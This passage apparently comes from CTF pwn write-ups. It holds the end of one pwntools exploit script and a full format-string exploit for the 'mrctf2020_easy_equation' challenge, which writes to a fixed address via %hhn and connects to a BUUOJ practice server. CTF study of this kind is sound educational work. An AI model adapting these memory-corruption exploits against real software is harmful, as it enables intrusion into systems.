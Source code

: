 ```py
payload += p32(write_addr)
payload += p32(0x30)

io.sendlineafter(b'GIVE ME YOUR NAME!', payload)
time.sleep(0.5)
io.sendline(b'/flag')
io.interactive()
```

# buu079-mrctf2020_easy_equation
简单的格式化字符串漏洞。
```py
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'

sol = 2
# io = process('./mrctf2020_easy_equation')
io = remote('node4.buuoj.cn', 25629)
elf = ELF('./mrctf2020_easy_equation')

# gdb.attach(io)
# time.sleep(3)
payload = b'a%1c%10$hhnaaaaba' + p64(0x60105C)
print(payload)
io.sendline(payload)
io.interactive()
```

